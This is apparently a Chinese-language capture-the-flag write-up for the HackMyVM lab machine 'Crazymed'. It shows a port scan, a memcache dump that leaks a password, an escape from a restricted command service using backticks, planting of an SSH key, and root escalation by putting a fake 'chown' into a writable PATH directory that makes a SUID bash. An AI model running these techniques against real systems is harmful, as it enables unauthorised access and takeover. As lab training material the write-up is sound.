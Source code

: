 # Crazymed

2025.02.14 https://hackmyvm.eu/machines/machine.php?vm=Crazymed

## Ip

192.168.5.40

## Scan

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
4444/tcp  open  krb524
11211/tcp open  memcache
```

先看看 80 web 服务有什么，底部显示了个 Designed by BootstrapMade 像是个 CMS 的模板，gobuster 扫描后得到 http://192.168.5.40/Readme.txt 但是没什么用，看样子像是个静态网站，在看其他的端口吧。

nc 连接 4444 端口，发现要输入密码，但是目前不知道密码。在链接 11211 的 memcache 看看能不能拿到缓存信息：

```
echo "stats items" | nc -vn -w 1 192.168.5.40 11211          # 发现 items:1
echo "stats cachedump 1 0" | nc -vn -w 1 192.168.5.40 11211  # 得到了缓存的item
echo "get log" | nc -vn -w 1 192.168.5.40 11211              # 这个item中得到了一个提示 password: cr4zyM3d
```

然后利用得到的密码 cr4zyM3d 在 4444 的端口上输入，然后输入 ? 号能看到可以执行的命令，这时输入 id 发现当前用户是 brad，尝试执行其他的命令进行绕过，并且得到了 user flag：

```
System command: echo `ls`
user.txt
System command: echo `cat user.txt`
f70a9801673220fb56f42cf9d5ddc28b
```

将生成的 id_rsa.pub 公钥写入到目标机器上：

```
ssh-keygen -t rsa -f ./id_rsa  # kali上执行

echo `echo 'ssh-rsa ........1MdEG2btvfgk= kali@kali'>>./.ssh/authorized_keys`  # 在目标机器上执行，将上面生成的id_rsa.pub写入到authorized_keys中
```

在 kali 上使用私钥登陆：

```
ssh -i id_rsa brad@192.168.5.40
```

经过枚举，发现 /usr/local/bin 这个目录任意用户可以写入，并且这个目录是在系统环境变量 PATH 最开始位置。上传 pspy 发现后台有任务执行，/bin/bash /opt/check_VM

```
brad@crazymed:~$ cat /opt/check_VM
#! /bin/bash

#users flags
flags=(/root/root.txt /home/brad/user.txt)
for x in "${flags[@]}"
do
if [[ ! -f $x ]] ; then
echo "$x doesn't exist"
mcookie > $x
chmod 700 $x
fi
done

chown -R www-data:www-data /var/www/html

#bash_history => /dev/null
home=$(cat /etc/passwd |grep bash |awk -F: '{print $6}')

for x in $home
do
ln -sf /dev/null $x/.bash_history ; eccho "All's fine !"
done


find /var/log -name "*.log*" -exec rm -f {} +
```

上面发现 chown 这个命令没有写完全路径，可以利用发现的 /usr/local/bin 目录可写，实现命令替换：

```
brad@crazymed:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
brad@crazymed:~$ ls -al /usr/local/bin
total 8
drwxr-xrwx  2 root root 4096 Oct 31  2022 .
drwxr-xr-x 10 root root 4096 Oct 26  2022 ..
brad@crazymed:~$ echo 'cp /bin/bash /tmp/bash; chmod +xs /tmp/bash' > /usr/local/bin/chown; chmod +x /usr/local/bin/chown
```

等带 1 分钟，这时会出现 suid 程序/tmp/bash 直接提权到 root：

```
brad@crazymed:~$ /tmp/bash -p
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
b9b38d9533ca00072eff46338bf21b43
```
